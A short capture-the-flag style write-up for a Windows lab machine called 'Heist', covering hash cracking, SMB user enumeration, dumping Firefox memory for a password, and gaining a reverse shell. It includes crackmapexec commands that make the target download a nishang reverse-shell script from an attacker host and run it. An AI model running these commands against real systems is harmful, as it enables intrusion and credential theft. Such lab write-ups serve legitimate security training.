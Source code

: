 # Heist

Machine with winrm running, SMB service and http web application with login
page but possibility of guest login.

First step is quite easy (find an attachment in the web application with
some credential hashes). Some of then can be cracked with online tools.
The strongest hash can be cracked by dictionary attack with john.

## Important notes here

* Remember to inspect everything and perform always an exhaustive scan of 
all services and places accessible.

* CrackMapExec has an additional module to attack winrm service (no need of other tools like evilwinrm).

* There's a really usefull script from impacket to list available users using SMB which is lookupsid.py.

* Root password can be extracted from process memory. This is possible because firefox is running in the system and we can use a tool like procdump.exe to extract all memory information of this process.

## Possibilities to reverse shell here

* Of course winevil-rm will promp a reverse shell directly.

* For manual reverse shell I've tried first to use SMB to share a folder with nc.exe. This didn't work because of some kind of SMB version incompatibilities (I've tried with smb2support flag but it didn't work anyway).

* How I did it then?

	1. Get InvokeReverseShell.ps1 file from nishang.
	2. Share a python server with this file.
	3. Execute with crackmapexec a wget but using powershell from cmd. ```cme winrm [ip] -u [user] -p [password] -x "powershell -Command wget [attackerIp]:[attackerPort]/PS.ps1 -outfile ps.ps1"```
	4. Execute with crackmapexec the powershell script: ```cme winrm [ip] -u [user] -p [password] -x "powershell -File ps.ps1"```
